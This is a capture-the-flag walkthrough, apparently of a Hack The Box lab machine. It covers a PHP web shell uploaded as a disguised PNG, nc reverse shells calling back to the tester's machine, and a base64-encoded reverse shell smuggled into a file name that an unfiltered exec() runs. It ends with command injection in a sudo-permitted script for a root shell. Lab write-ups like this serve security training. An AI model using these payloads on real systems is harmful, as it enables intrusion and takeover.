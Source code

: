 
`sudo nmap -sC -sV -A -p- 10.10.10.146 -o nmap`
![[Pasted image 20250218150816.png]]

### Port 80
Wappalyzer
![[Pasted image 20250218151024.png]]

![[Pasted image 20250218151039.png]]
not alot there so we have a look a source 
![[Pasted image 20250218151231.png]]
try the page http://10.10.10.146/uploads/ which just gives a dot so i image more will appear here when things are uploaded 
![[Pasted image 20250218151318.png|400]]
run gobuster to see if we can find other directories 
`gobuster dir -u http://10.10.10.146/ -w /usr/share/wordlists/dirb/common.txt -o gobuster -x txt,pdf,config,php`
![[Pasted image 20250218153305.png]]

visiting http://10.10.10.146/backup/
![[Pasted image 20250218151528.png]]
download the backup.tar file
extrat the tar and it gives us some php files
![[Pasted image 20250218151836.png]]

instresting information about the types we can upload in upload.php
![[Pasted image 20250218153804.png|600]]

first test normal behaior by uploading a png
![[Pasted image 20250218161106.png]]




![[Pasted image 20250218162056.png]]
(write all buffers save and exit with :wqa)
we used vim as it keeps the file type (the magic bytes) the same and just write it raw straight in the file
![[Pasted image 20250218162214.png]]

convert the file to WebGort.php.png and upload it
wehn we try and visit the file it is broken but if we put ?cmd=id at the end we get our command run
'http://10.10.10.146/uploads/10_10_14_9.php.png?cmd=id'
![[Pasted image 20250218162923.png|500]]

if we do a `which+nc` we can see nc is at `/usr/bin/nc`
now we can see where netcat is we can send a rev shell back to our machine for something a little more stable than the php web shell
`/usr/bin/nc%2010.10.14.9%204455%20-e%20%2Fbin%2Fsh`

![[Pasted image 20250218163246.png]]
we are on as the apache user 
enumerating inside of the box there is a user called guly
![[Pasted image 20250218163550.png]]

we can view in gulys home folder but cant read his user.txt file
![[Pasted image 20250218164138.png]]
if we read the crontab.guly we can see the php files runs every 3 miniutes
![[Pasted image 20250218164223.png]]
reading check_attack.php
``` php
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
```
this code take take the files in path and then uses the names of them in an exec without filtering the names
so if we can name a file in the uploads folder as a command we can get it to run in the exec
used a simple nc rev shell from https://www.revshells.com/ base64 encoded it and then made the file with touch and named it 'a; echo bmMgMTAuMTAuMTQuOSA0NDY2IC1lIC9iaW4vc2g= | base64 -d | sh; b'
this bit of command injection will end the current exec command with a 
	then echo our nc command pip that in to base64 decode and then pip it in to sh
		finally then just putting the command for the letter b so then hopefuly it will get picked up and run the rest of the script if needed (dont mind if it doesnt our call back will have been made anyway)

`touch '/var/www/html/uploads/a; echo bmMgMTAuMTAuMTQuOSA0NDY2IC1lIC9iaW4vc2g= | base64 -d | sh; b'`
![[Pasted image 20250218165923.png]]
wait a minute and 
![[Pasted image 20250218170013.png]]
now we are guly and we can read the user flag

### Priv esc

run `sudo -l` to see if there is anything we can run
![[Pasted image 20250218170104.png]]
changename.sh with no password needed which is lucky as we dont have a password for guly 

reading the script it writes the file out to `/etc/sysconfig/network-scripts/ifcfg-guly`. It also fails to load the device `guly0` as it does not exist
![[Pasted image 20250218170130.png]]

as it is writing a file we can try again at injecting commands to see if it doing anything interesting with the inputs 

![[Pasted image 20250218170646.png]]
the id command is running and is root

so if we instead of id call a /bin/bash
![[Pasted image 20250218170758.png]]

we are then dropped in to a root shell
![[Pasted image 20250218170744.png]]

# Notes

when debugging the php code we can use `php -a` as an interactive shell to come the code in to and run it against test variables



























